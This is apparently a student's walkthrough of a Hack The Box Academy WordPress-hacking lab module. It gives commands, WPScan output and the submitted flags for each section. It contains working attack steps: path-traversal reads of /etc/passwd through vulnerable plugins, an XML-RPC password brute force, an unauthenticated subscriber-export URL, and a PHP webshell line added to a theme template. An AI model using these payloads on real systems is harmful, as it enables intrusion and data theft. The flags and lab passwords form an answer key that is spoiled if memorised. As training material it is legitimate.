

# Hacking WordPress

Created by: **4bh1-03**

Welcome back to my **`HTB Junior Cybersecurity Analyst (CJCA)`** certification journey! Today, we are diving into a cornerstone of web security: **`Hacking WordPress`**.


As the most popular Content Management System (CMS) on the planet—powering over 40% of all websites—WordPress is a massive attack surface. While the core software is generally secure, the vast ecosystem of third-party plugins and themes is where the real "fun" begins. For a SOC Analyst or Pentester, understanding how to enumerate and exploit these vulnerabilities is an essential skill.

In this module, we move beyond basic scanning. We will be:

- **Enumerating** the target to identify themes, users, and plugins.
- **Weaponizing tools** like `WPScan` and `Metasploit` to streamline our discovery.

Whether you're here to learn how to secure your own site or you're following along with my HTB walkthroughs, let’s get into the technicals of how a simple plugin can become a gateway for an attacker.

---

# Section 6 :  Directory Indexing

### **Keep in mind the key WordPress directories discussed in the WordPress Structure section. Manually enumerate the target for any directories whose contents can be listed. Browse these directories and locate a flag with the file name flag.txt and submit its contents as the answer.**

Hit the below route and you will get the flag.

```bash
http://154.57.164.80:32167/wp-content/plugins/mail-masta/inc/flag.txt
```

**Answer :** `HTB{3num3r4t10n_15_k3y}`

---

# Section 8 : Login

### **Search for "WordPress xmlrpc attacks" and find out how to use it to execute all method calls. Enter the number of possible method calls of your target as the answer.**

Use the method `system.listMethod` to get the full list. Filter using `grep` and count the methods using `wc -l`

```bash
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://<TARGET>/xmlr[pc.php](http://154.57.164.82:32574/xmlrpc.php) | grep "<string>" | wc -l
```

**Answer :** `80` 

---

# Section 10 : WPScan Enumeration

**Enumerate the provided WordPress instance for all installed plugins. Perform a scan with WPScan against the target and submit the version of the vulnerable plugin named “photo-gallery”.**

```bash
wpscan --url http://154.57.164.82:32574 -e ap
```



**Answer :** `1.5.34` 

---

# Section 11 : Exploiting a Vulnerable Plugin

```bash
curl http://154.57.164.83:30921/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


**Answer :** `sally.jones` 

---

# Section 12 : Attacking WordPress Users

### **Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.**

You have to first extract the rockyou.txt.tar.gzip which you will find in the directory:
`/usr/share/seclists/Passwords/Leaked-Databases/` 


First use `gzip` and then use `tar` to extract it fully.


Then use the below command to brute-force the password for the user `roger` .

```bash
┌─[eu-academy-4]─[10.10.15.239]─[htb-ac-2120529@htb-2ovn8yawam-htb-cloud-com]─[~]
└──╼ [★]$ wpscan --password-attack xmlrpc -U roger -P rockyou.txt --url http://154.57.164.83:30921
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://154.57.164.83:30921/ [154.57.164.83]
[+] Started: Fri Mar 13 05:01:11 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://154.57.164.83:30921/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://154.57.164.83:30921/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://154.57.164.83:30921/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://154.57.164.83:30921/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.6 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://154.57.164.83:30921/feed/, <generator>https://wordpress.org/?v=5.1.6</generator>
 |  - http://154.57.164.83:30921/comments/feed/, <generator>https://wordpress.org/?v=5.1.6</generator>

[+] WordPress theme in use: ben_theme
 | Location: http://154.57.164.83:30921/wp-content/themes/ben_theme/
 | Readme: http://154.57.164.83:30921/wp-content/themes/ben_theme/readme.txt
 | Style URL: http://154.57.164.83:30921/wp-content/themes/ben_theme/style.css?ver=5.1.6
 | Style Name: Transportex
 | Style URI: https://themeansar.com/free-themes/transportex/
 | Description: Transportex is a transport, logistics & home movers WordPress theme with focus on create online tran...
 | Author: Themeansar
 | Author URI: https://themeansar.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.6.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://154.57.164.83:30921/wp-content/themes/ben_theme/style.css?ver=5.1.6, Match: 'Version: 1.6.7'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://154.57.164.83:30921/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://154.57.164.83:30921/wp-content/plugins/mail-masta/readme.txt

[+] photo-gallery
 | Location: http://154.57.164.83:30921/wp-content/plugins/photo-gallery/
 | Last Updated: 2026-03-03T18:04:00.000Z
 | [!] The version is out of date, the latest version is 1.8.39
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.5.34 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/css/jquery.mCustomScrollbar.min.css?ver=1.5.34
 |  - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/css/styles.min.css?ver=1.5.34
 |  - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/js/jquery.mCustomScrollbar.concat.min.js?ver=1.5.34
 |  - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/js/scripts.min.js?ver=1.5.34
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://154.57.164.83:30921/wp-content/plugins/photo-gallery/readme.txt

[+] wp-google-places-review-slider
 | Location: http://154.57.164.83:30921/wp-content/plugins/wp-google-places-review-slider/
 | Last Updated: 2025-12-03T17:07:00.000Z
 | [!] The version is out of date, the latest version is 17.7
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 6.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://154.57.164.83:30921/wp-content/plugins/wp-google-places-review-slider/README.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                                                                                                                    
Trying roger / brendan Time: 00:02:18 <                                                                                                              > (1890 / 14346281)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Mar 13 05:03:46 2026
[+] Requests Done: 2066
[+] Cached Requests: 6
[+] Data Sent: 1.023 MB
[+] Data Received: 1.489 MB
[+] Memory used: 279.215 MB
[+] Elapsed time: 00:02:34

```

**Answer :** `lizard`

---

# Section 13 : Remote Code Execution (RCE) via the **Theme Editor**

### **Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.**

Use an online url encoder to encode the command you want to execute, then place that encoded command in the url.

Actual command used: `cat /home/wp-user/flag.txt` 

Encoded command: `cat%20%2Fhome%2Fwp-user%2Fflag.txt`

```bash
┌─[eu-academy-4]─[10.10.15.239]─[htb-ac-2120529@htb-lgo6jbfexp-htb-cloud-com]─[~]
└──╼ [★]$ curl -X GET http://154.57.164.79:30699/wp-content/themes/twentysixteen/404.php?cmd=cat%20%2Fhome%2Fwp-user%2Fflag.txt
HTB{rc3_By_d3s1gn}
```

**Answer :** `HTB{rc3_By_d3s1gn}`

---

# Section 16 : Skills Assessment - WordPress

### **Scenario**

> 
> 
> 
> You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.
> 
> Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.
> 

I found that Wordpress was not installed at the root directory. I inspected the page source hoping I would find something interesting and surely I did. 


I came accross this url which indicated that WordPress was likely hosted on this url.

```html
<li class=""><a href="http://blog.inlanefreight.local">Blog</a></li>
```

Since the subdomain was not publicly resolvable, I mapped it manually in my `/etc/hosts` file:


Now we can perform wpscan on `blog.inlanefreight.local` 

```bash
wpscan --url http://blog.inlanefreight.local
```

Scan output:

```bash
┌─[eu-academy-4]─[10.10.15.239]─[htb-ac-2120529@htb-upjzxz0sua-htb-cloud-com]─[~]
└──╼ [★]$ wpscan --url http://blog.inlanefreight.local
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.12.75]
[+] Started: Fri Mar 13 12:27:48 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.29 (Ubuntu)
 |  - X-TEC-API-VERSION: v1
 |  - X-TEC-API-ROOT: http://blog.inlanefreight.local/index.php?rest_route=/tribe/events/v1/
 |  - X-TEC-API-ORIGIN: http://blog.inlanefreight.local
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.local/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.inlanefreight.local/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.inlanefreight.local/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.6 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.inlanefreight.local/?feed=rss2, <generator>https://wordpress.org/?v=5.1.6</generator>
 |  - http://blog.inlanefreight.local/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.1.6</generator>

[+] WordPress theme in use: twentynineteen
 | Location: http://blog.inlanefreight.local/wp-content/themes/twentynineteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://blog.inlanefreight.local/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://blog.inlanefreight.local/wp-content/themes/twentynineteen/style.css?ver=1.3
 | Style Name: Twenty Nineteen
 | Style URI: https://github.com/WordPress/twentynineteen
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.inlanefreight.local/wp-content/themes/twentynineteen/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] email-subscribers
 | Location: http://blog.inlanefreight.local/wp-content/plugins/email-subscribers/
 | Last Updated: 2026-03-05T10:37:00.000Z
 | [!] The version is out of date, the latest version is 5.9.19
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/email-subscribers/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/email-subscribers/readme.txt

[+] site-editor
 | Location: http://blog.inlanefreight.local/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt

[+] the-events-calendar
 | Location: http://blog.inlanefreight.local/wp-content/plugins/the-events-calendar/
 | Last Updated: 2026-03-09T13:37:00.000Z
 | [!] The version is out of date, the latest version is 6.15.17.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.1.2.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/the-events-calendar/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:07

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Mar 13 12:28:09 2026
[+] Requests Done: 177
[+] Cached Requests: 5
[+] Data Sent: 47.933 KB
[+] Data Received: 951.168 KB
[+] Memory used: 279.047 MB
[+] Elapsed time: 00:00:20

```

### 1. **Identify the WordPress version number.**

**Answer :** `5.1.6` 

### 2. **Identify the WordPress theme in use.**

**Answer :** `twentynineteen` 

### 3. **Submit the contents of the flag file in the directory with directory listing enabled.**

From the output of `wpscan` :


**Answer :** `HTB{d1sabl3_d1r3ct0ry_l1st1ng!}` 

### **4. Identify the only non-admin WordPress user. (Format: <first-name> <last-name>)**


**Answer :** `Charlie Wiggins`

### 5. **Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.**

The **Email Subscribers & Newsletters plugin**, in versions up to and including **`4.2.2`**, had a critical vulnerability (`CVE-2019-19985`) that allowed unauthenticated users to download sensitive subscriber data. The vulnerability has been patched in version `4.2.3` and later versions.

**How the Vulnerability Worked ?**

The flaw stemmed from a lack of access control checks for specific query variables used to export subscriber lists. An unauthenticated attacker could send a specially crafted HTTP request to a vulnerable WordPress site to trigger the file download.

**Technical Exploit Details :**

For a system with a vulnerable version of the plugin installed (e.g., version 4.2.2 or earlier), the unauthenticated file download could be triggered by accessing a specific administrative URL with the correct parameters.

The general structure of the malicious request was an HTTP `GET` request (though `POST` also worked) to the `wp-admin/admin.php` file with the following URL parameters:

```bash
http://[BASE_URL]/wp-admin/admin.php?page=download_report&report=users&status=all
```

- `[BASE_URL]` is the address of the vulnerable WordPress website.
- `page=download_report` targets the vulnerable functionality.
- `report=users` and `status=all` specify the data to be exported (all users and their statuses).

Upon receiving this request, the vulnerable plugin would execute the export function without verifying the user's authentication status, leading to an unauthenticated download of the entire subscriber list in CSV format.


Save the `all-contacts.csv` file and open it.


**Answer :** `HTB{unauTh_d0wn10ad!}`

### 6. **What is the version number of the plugin vulnerable to an LFI?**

The vulnerable plugin here is **Site Editor**. Its version as seen in the output is `1.1.1` .

**Answer :** `1.1.1` 

### 7. **Use the LFI to identify a system user whose name starts with the letter "f".**

The vulnerable script is:

```bash
/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php
```

It accepts the parameter: `ajax_path=` , which is not properly sanitized.

Open your terminal and enter the below command to get the list of users.

```bash
curl "http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=../../../../../../../../../../../../../../../../etc/passwd" | grep f
```

The vulnerable script is deep inside the directory:

```
wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/.......
```

So we go up multiple directories:

```
../../../../../../../../etc/passwd
```

Even if you add extra `../`, Linux simply stops at `/`, so it's safe. So go up multiple directories until you reach `/etc/passwd` .


**Answer :** `frank.mclane`

### 8. **Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.**

First we have to brute-force the password for the `erika` user . Use `rockyou.txt` for brute-forcing the password.

```bash
wpscan --password-attack xmlrpc -U admin -P rockyou.txt --url http://blog.inlanefreight.local 
```


We get the password for the user `erika` as `010203` .

Now we have to login into the admin panel and open the theme editor and select any theme which is not in use (other than `twentynineteen`) and add the line:

```php
system($_GET['cmd'])
```

in its `404.php` template and upload the file. Once it is uploaded open terminal and use curl to execute and get the shell command results.


Actual command : `ls /home/erika` 


Actual command: `cat /home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt`

There we get the flag!

**Answer :** `HTB{w0rdPr355_4SS3ssm3n7}`

---